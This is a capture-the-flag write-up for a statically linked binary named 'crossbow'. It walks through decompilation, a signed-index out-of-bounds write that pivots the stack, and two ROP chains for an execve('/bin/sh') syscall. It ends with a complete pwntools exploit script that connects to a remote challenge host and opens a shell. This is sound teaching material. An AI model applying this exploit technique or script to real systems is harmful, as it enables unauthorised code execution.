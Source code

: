 # Enumeration

First of all, we start with a `checksec` and a `file`:  

```console
╰─➤  file crossbow 
crossbow: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, with debug_info, not stripped

gdb> checksec crossbow
Arch:       amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
Debuginfo:  Yes
```

Prevents **Buffer Overflows**  
Disables **code execution** on stack 
Makes some binary sections **read-only** 

### Disassembly

Starting with `main()`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  setvbuf(&_stdin_FILE, 0LL, 2LL, 0LL);
  setvbuf(&_stdout_FILE, 0LL, 2LL, 0LL);
  alarm(4882LL);
  banner();
  training();
  return 0;
}
```

There is an interesting call to `training()`.

```c
__int64 __fastcall training(__int64 a1, __int64 a2, __int64 a3, __int64 a4, int a5, int a6)
{
  __int64 v6; // rdx
  __int64 v7; // rcx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  _BYTE v13[32]; // [rsp+0h] [rbp-20h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: You only have 1 shot, don't miss!!\n",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  target_dummy((__int64)v13, (__int64)"\x1B[1;34m", v6, v7, v8, v9);
  return printf(
           (unsigned int)"%s\n[%sSir Alaric%s]: That was quite a shot!!\n\n",
           (unsigned int)"\x1B[1;34m",
           (unsigned int)"\x1B[1;33m",
           (unsigned int)"\x1B[1;34m",
           v10,
           v11);
}
```

Nothing but an redirect to function `target_dummy()`.

```c
__int64 __fastcall target_dummy(__int64 a1, __int64 a2, __int64 a3, __int64 a4, int a5, int a6)
{
  int v6; // edx
  int v7; // ecx
  int v8; // r8d
  int v9; // r9d
  int v10; // r8d
  int v11; // r9d
  _QWORD *v12; // rbx
  int v13; // r8d
  int v14; // r9d
  __int64 result; // rax
  int v16; // r8d
  int v17; // r9d
  int v18; // [rsp+1Ch] [rbp-14h] BYREF

  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Select target to shoot: ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    a5,
    a6);
  if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v18, v6, v7, v8, v9) != 1 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Are you aiming for the birds or the target kid?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v10,
      v11);
    exit(1312LL);
  }
  v12 = (_QWORD *)(8LL * v18 + a1);
  *v12 = calloc(1LL, 128LL);
  if ( !*v12 )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: We do not want cowards here!!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v13,
      v14);
    exit(6969LL);
  }
  printf(
    (unsigned int)"%s\n[%sSir Alaric%s]: Give me your best warcry!!\n\n> ",
    (unsigned int)"\x1B[1;34m",
    (unsigned int)"\x1B[1;33m",
    (unsigned int)"\x1B[1;34m",
    v13,
    v14);
  result = fgets_unlocked(*(_QWORD *)(8LL * v18 + a1), 128LL, &_stdin_FILE);
  if ( !result )
  {
    printf(
      (unsigned int)"%s\n[%sSir Alaric%s]: Is this the best you have?!\n\n",
      (unsigned int)"\x1B[1;31m",
      (unsigned int)"\x1B[1;33m",
      (unsigned int)"\x1B[1;31m",
      v16,
      v17);
    exit(69LL);
  }
  return result;
}
```

As observed, the code allows an **out-of-bounds (OOB) write** because we have control over `idx`, the buffer index, and there is no validation for this value. 

This likely triggers a vulnerability - possibly an out-of-bounds access or an integer underflow that allows memory manipulation.

Additionally, since `idx` is a signed integer, we can input negative values. By doing so, we can overwrite the saved `$rbp` value of the stack frame with a heap pointer to our input. Consequently, when the function concludes, the `leave` instruction will pivot the stack from its original state to the user-controlled input, effectively granting us control over the execution flow.

### Debugging 

If we enter an OOB value like `-2`, we see that we overwrite `rbp`. 

![image](https://github.com/user-attachments/assets/912615c2-851a-49ba-974a-5c5347fa361a)


Once we successfully pivot the stack to a user-controlled area, we can chain a ROP sequence using the available gadgets in the binary. Since the binary is statically linked, a `ret2libc` approach isn't an option. Instead, we need to craft an `execve("/bin/sh", NULL, NULL)` system call to achieve code execution.The exploit flow is that we need to create 2 ROP chains.

# With the first one which puts "/bin/sh" in memory, we need to find writable address.

Since there is no "/bin/sh" in the memory:
```gdb
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
```
Let's find writable address:

![image](https://github.com/user-attachments/assets/fa48bb54-c4b0-4b82-a393-375f972828fa)

Yeah, I saw it, let's find the writable address that from `0x000000000040d000`.
And remember that, we find the address that store nothing:

![image](https://github.com/user-attachments/assets/aeb00b40-ed87-4701-aa44-a58bc959a819)

So many addresses there, let's choose a ranbom one and asign that value to RDI 

```py
rop = ROP(elf)
rop.rax=b'/bin/sh\x00'
rop.rdi=0x40da00
```

# Let's next to the second ROP chain, we create execve syscall:
```py
Sets up registers for an execve syscall:
RAX = SYS_execve (system call number for execve, which is 59 on x86_64)
RSI = 0 (NULL for argv)
RDX = 0 (NULL for envp)
Adds a "syscall" gadget to execute the system call
#code
rop1 = ROP(elf)
rop1(rax=constants.SYS_execve, rsi=0, rdx=0)
rop1.raw(rop1.find_gadget(["syscall"]))
```

# Solution

```py
from pwn import *
r=remote("94.237.60.63",49680)
elf=ELF("./crossbow")
context.arch="amd64"
r.sendlineafter("shoot: ",str(-2))
rop = ROP(elf)
rop.rax=b'/bin/sh\x00'
rop.rdi=0x40da00
print(rop.dump())
rop1 = ROP(elf)
rop1(rax=constants.SYS_execve, rsi=0, rdx=0)
rop1.raw(rop1.find_gadget(["syscall"]))
print(rop1.dump())

r.sendlineafter(">",p64(0x040ac2e)*1+rop.chain()+p64(0x00402199)+rop1.chain())
r.interactive()
```


![image](https://github.com/user-attachments/assets/8879b08a-1dc7-4289-b592-d86a81654d3c)

